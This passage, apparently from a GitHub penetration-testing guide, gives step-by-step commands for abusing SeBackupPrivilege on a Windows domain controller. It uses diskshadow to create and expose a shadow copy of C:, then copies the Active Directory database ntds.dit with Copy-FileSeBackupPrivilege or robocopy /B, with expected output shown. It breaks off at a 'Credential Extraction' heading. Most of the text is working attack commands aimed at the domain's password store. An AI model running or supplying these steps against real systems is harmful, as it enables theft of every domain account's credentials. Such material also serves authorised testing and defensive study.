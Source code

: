 #### Step 1: Create Shadow Copy
```cmd
# Launch DiskShadow utility
diskshadow.exe

# DiskShadow commands sequence:
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

#### Step 2: Verify Shadow Copy
```powershell
# Examine shadow copy contents
dir E:

# Expected structure:
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-r---        3/24/2021   6:20 PM                Program Files
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

#### Step 3: Copy NTDS.dit
```powershell
# Copy database file using SeBackupPrivilege
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

# Expected output:
Copied 16777216 bytes
```

### Alternative: Robocopy Method
```cmd
# Use built-in robocopy with backup mode
robocopy /B E:\Windows\NTDS .\ntds ntds.dit

# Output:
ROBOCOPY     ::     Robust File Copy for Windows
100%        New File              16.0 m        ntds.dit
   Speed :           356962042 Bytes/sec.
```

## 🔓 Credential Extraction

